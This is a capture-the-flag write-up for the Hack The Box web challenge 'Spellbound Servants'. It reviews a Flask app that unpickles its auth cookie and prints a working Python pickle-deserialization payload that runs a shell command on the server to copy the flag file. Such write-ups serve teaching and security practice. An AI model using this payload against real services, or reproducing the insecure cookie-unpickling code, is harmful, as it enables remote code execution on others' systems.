```yaml
---
title: Spellbound Servants - Hack The Box
date: 2025-01-01
---
```


<script setup>
    import ChallengeCard from "../../../../../.vitepress/components/ChallengeCard.vue";
</script>

# Spellbound Servants

## Challenge Description

Innocent souls, ensnared by malevolent enchantments, are tragically being auctioned as subservient beings on a sinister
website. Our mission is to infiltrate this digital realm, unravel the dark spells that bind them, and set the captives
free.

## Challenge Overview

The challenge involves a web application called **Spellbound Servants**, a themed website that provides a user interface
for "halloween servants" products. The application requires users to log in and uses cookies to authenticate them. Upon
inspecting the application's functionality, a vulnerability was discovered that allows for remote code execution (RCE).
This vulnerability lies in the insecure deserialization of user-provided data in the `auth` cookie.

## Code Review

The application's backend code includes the following critical components:

1. **Authentication Mechanism**:
   ```python
   def isAuthenticated(f):
       @wraps(f)
       def decorator(*args, **kwargs):
           token = request.cookies.get('auth', False)

           if not token:
               return abort(401, 'Unauthorised access detected!')
           
           try:
               user = pickle.loads(base64.urlsafe_b64decode(token))
               kwargs['user'] = user
               return f(*args, **kwargs)
           except:
               return abort(401, 'Unauthorised access detected!')

       return decorator
   ```
    - The `auth` cookie is base64-decoded and deserialized using `pickle.loads`.
    - This approach is inherently insecure as it trusts the user-provided `auth` token without validation.

2. **Login Process**:
   ```python
   @api.route('/login', methods=['POST'])
   def api_login():
       if not request.is_json:
           return response('Invalid JSON!'), 400

       data = request.get_json()
       username = data.get('username', '')
       password = data.get('password', '')

       if not username or not password:
           return response('All fields are required!'), 401

       user = login_user_db(username, password)

       if user:
           res = make_response(response('Logged In successfully'))
           res.set_cookie('auth', user)
           return res
       
       return response('Invalid credentials!'), 403
   ```
    - The user data is stored as a serialized `pickle` object in the `auth` cookie.

### Vulnerability

The use of `pickle.loads` to deserialize the cookie data introduces a **remote code execution (RCE)** vulnerability.
Since `pickle` can execute arbitrary code during deserialization, a malicious actor can craft a payload that executes
commands on the server.

## Exploitation

To exploit this vulnerability, the following steps were taken:

### 1. Crafting the Malicious Payload

A Python script was used to generate a malicious `pickle` payload that executes a command to copy the flag file to a
publicly accessible directory.

```python
import base64
import pickle

class RCE:
    def __reduce__(self):
        return exec, ('import os; os.system("cat /flag.txt > /app/application/static/flag.txt")',)

malicious_pickle = base64.urlsafe_b64encode(pickle.dumps(RCE())).decode()
print(malicious_pickle)
```

This payload:

- Defines a class `RCE` with a `__reduce__` method that executes the command to copy the flag.
- Serializes the `RCE` object using `pickle` and encodes it in base64.

### 2. Setting the Malicious Cookie

The generated payload is set as the `auth` cookie in the browser. Using the developer tools, the cookie is modified to
contain the malicious `pickle` payload.

### 3. Triggering the Exploit

The application processes the `auth` cookie when accessing authenticated endpoints, such as `/home`. Upon visiting this
endpoint with the malicious cookie, the command is executed on the server.

### 4. Receiving the Flag

The flag is copied to the publicly accessible directory, allowing it to be retrieved by accessing the corresponding URL.

![Spellbound Servants - Flag](/ctf/hack-the-box/challenges/web/spellbound-servants/flag.png){style="display: block; margin: auto;"}

We successfully exploited the deserialization vulnerability to execute arbitrary commands on the server and retrieve the
flag. :tada:

<ChallengeCard
    challengeType="web"
    challengeName="Spellbound Servants"
    htbCardLink="https://www.hackthebox.com/achievement/challenge/585215/626"
/>

## References

- [Python `pickle` Documentation](https://docs.python.org/3/library/pickle.html)
